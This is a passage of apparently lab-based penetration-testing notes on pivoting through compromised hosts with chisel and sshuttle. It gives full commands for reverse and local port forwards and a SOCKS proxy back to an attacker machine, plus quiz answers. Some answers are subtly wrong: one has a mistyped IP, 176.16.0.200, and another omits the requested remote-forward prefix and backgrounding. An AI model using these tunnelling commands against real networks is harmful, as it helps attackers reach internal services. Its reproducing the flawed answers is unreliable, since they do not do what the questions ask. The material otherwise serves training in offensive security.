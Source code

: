let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:\
`./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`

Connecting back to our attacking machine, functioning as a chisel server started with:\
`./chisel server -p 1337 --reverse &`

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

**Local port forward**

&#x20;On the compromised target we set up a chisel server:\
`./chisel server -p LISTEN_PORT`

We now connect to this from our attacking machine like so:\
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:\
`./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

_What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?_

```
./chisel client 176.16.0.200:4242 R:socks &
```

_How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process._

```
./chisel client 172.16.0.200:1337 33060:172.16.0.100:3306
```

_If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?_

```
./chisel client 172.16.0.5:4444 8000:172.16.0.10:80
```

### [sshuttle](https://github.com/sshuttle/sshuttle)

&#x20;it uses an SSH connection to create a tunnelled proxy that acts like a new interface. In short, it simulates a VPN, allowing us to route our traffic through the proxy _without the use of proxychains_

First of all we need to install sshuttle. On Kali this is as easy as using the `apt` package manager:\
`sudo apt install sshuttle`

The base command for connecting to a server with sshuttle is as follows:\
`sshuttle -r username@address subnet`&#x20;

For example, in our fictional 172.16.0.x network with a compromised server at 172.16.0.5, the command may look something like this:\
`sshuttle -r user@172.16.0.5 172.16.0.0/24`
